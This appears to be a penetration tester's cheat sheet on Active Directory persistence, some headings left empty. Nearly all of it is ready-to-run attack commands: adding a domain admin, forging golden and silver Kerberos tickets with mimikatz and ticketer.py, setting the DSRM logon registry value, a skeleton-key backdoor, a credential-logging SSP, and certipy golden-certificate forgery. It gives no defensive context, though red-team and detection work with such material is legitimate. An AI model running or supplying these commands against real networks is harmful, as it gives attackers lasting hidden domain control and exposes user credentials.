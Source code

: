 # Persistence  
  
  
## Persistence  
  
	net group "domain admins" myuser /add /domain  
  
	Golden ticket  
		ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser>   
		    e.g. ticketer.py -nthash a68627b3770be0429e4f33bb0d58e7ce -domain-sid S-1-5-21-3241870433-2322440639-586768333 -domain microsoc winston  
		mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"  
  
	Silver Ticket  
		mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"  
		ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>  
  
	Diamond ticket  
  
	Saphire Ticket  
  
	Directory Service Restore Mode (DSRM)  
		PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD  
  
	Skeleton Key  
		mimikatz "privilege::debug" "misc::skeleton" "exit"  
			password is mimikatz  
  
	Custom SSP  
		mimikatz "privilege::debug" "misc::memssp" "exit"  
			C:\Windows\System32\kiwissp.log  
  
	Golden certificate  
		certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>  
			certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>  
  
	DC shadow  
  
	Acl manipulation  
	...  
  
